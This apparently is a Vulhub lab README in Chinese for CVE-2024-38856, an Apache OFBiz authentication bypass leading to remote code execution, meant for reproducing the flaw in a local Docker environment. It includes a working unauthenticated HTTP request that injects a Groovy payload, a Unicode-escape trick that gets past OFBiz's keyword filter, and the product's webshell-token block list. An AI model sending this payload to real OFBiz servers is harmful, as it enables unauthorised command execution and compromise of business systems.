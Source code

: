 # Apache OFBiz 身份验证绕过导致远程代码执行 (CVE-2024-38856)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz 是一个开源的企业资源规划（ERP）系统。它提供了一套企业应用程序，用于集成和自动化企业的许多业务流程。

这个漏洞是由于对 [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467) 的不完全修复而产生的。在 Apache OFBiz 18.12.11 版本中，开发人员认为他们已经修复了该漏洞，但实际上他们只解决了其中一种利用方法。Groovy 表达式注入仍然存在，允许未经授权的用户在服务器上执行任意命令。

References:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7>
- <https://forum.butian.net/article/524>
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](1.png)

值得注意的是，Apache Ofbiz限制了如下一些关键词的使用，我们可以通过Unicode编码来绕过这个限制，比如`\u0065xecute`：

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```
